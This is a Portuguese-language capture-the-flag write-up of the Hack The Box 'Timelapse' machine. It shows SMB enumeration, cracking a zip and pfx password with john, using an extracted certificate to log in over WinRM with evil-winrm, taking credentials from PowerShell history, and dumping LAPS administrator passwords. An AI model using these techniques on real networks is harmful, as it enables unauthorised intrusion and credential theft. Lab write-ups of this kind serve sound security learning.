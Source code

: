 ```yaml
---
title: Hack The Box - TimeLapse
author: R3d-4rr0w
date: 2022-04-05 09:00:00 -0300
categories: [Hack The Box, Writeups]
tags: [HTB, Writeups, Windows, Easy, LAPS]
alt: "HTB Timelapse Writeup"
---
```



# Hack the Box - Timelapse

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse.png)

Reconhecimento:

NMAP SCAN

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -p- --min-rate 1000 10.10.11.152 -v
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-01 22:20 EDT                                                             
PORT      STATE SERVICE       VERSION                                                                              
53/tcp    open  domain        Simple DNS Plus                                                                      
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-02 10:27:50Z)                       
135/tcp   open  msrpc         Microsoft Windows RPC                                                                
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc         Microsoft Windows RPC
53816/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Dentre várias portas abertas, podemos ver que as portas 139 e 445 SMB estão abertas.

Vamos enumerar os compartilhamentos desse serviço.

Listando as pastas do SMB.

```bash
┌──(red_arrow㉿kali)-[~]
└─$ smbclient -L //10.10.11.152/
Enter WORKGROUP\red_arrow's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Dentro da pasta Shares temos:

```bash
┌──(red_arrow㉿kali)-[~]
└─$ smbclient //10.10.11.152/Shares
Enter WORKGROUP\red_arrow's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1152581 blocks available
smb: \>
```

Dentro da pasta Dev temos um arquivo de backup

```bash
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1152580 blocks available
smb: \Dev\>
```

Dentro da pasta HelpDesk temos

```bash
smb: \> cd HelpDesk
smb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1147148 blocks available
smb: \HelpDesk\>
```

Após fazer o download dos arquivos encontrados, vemos que o arquivo winrm_backup.zip está protegido por senha. 

Vamos usar o zip2john para extrair o hash da senha do arquivo compactado para que seja possível fazer o bruteforce

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ zip2john winrm_backup.zip > password.txt
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

Faremos um bruteforce para tentar quebrar a senha:

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%201.png)

Após extrair o conteudo, temos acesso a um arquivo pfx com senha.

Vamos usar o pfx2john para extrair o hash da senha novamente

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > legacy.txt
```

Vamos tentar quebrar a senha denovo usando o john.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%202.png)

Agora que temos a senha, vamos extrair o certificado e a chave  do client do arquivo pfx.

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:

┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt
Enter Import Password:
```

Como visto no scan do nmap, temos a porta 5986 - WinRM aberta.

Agora que temos os certificados do client, tentaremos acessar um powershell remoto com o evil-winrm

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%203.png)

Conseguimos acesso a máquina.

Buscando nos diretórios que temos acesso, achamos a flag de usuario (user.txt) no Desktop do usuário que estamos logados.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%204.png)

Continuando a exploração, vamos olhar no histórico do powershell para ver se encontramos algo de interessante.

Conseguimos achar as credenciais de outro usuário.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%205.png)

Agora podemos acessar ao powershell remoto usando o usuário e a senha que encontramos.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%206.png)

Ao enumerar os usuários do AD, encontramos o user Administrator 

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%207.png)

Além do arquivo de backup que encontramos no SMB, também encontramos vários documentos a respeito da implantação do serviço LPAS.

Sabendo que as senhas do ‘Administrator’ são salvas localmente no Active Directory, vamos tentar fazer o dump das credenciais.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%208.png)

Agora que temos a senha do Administrator, vamos fazer login usando novamente o Evil-WinRM.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%209.png)

Após um tempo buscando a flag do root, que não estava no Desktop do user, como de costume, tentei ver nos outros usuários.

E estava no Desktop de outro usuário.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%2010.png)

E assim conseguimos comprometer a máquina e conseguir as duas flags.

![Untitled](../assets/img/HTB-TimeLapse/HTB-TimeLapse%2011.png)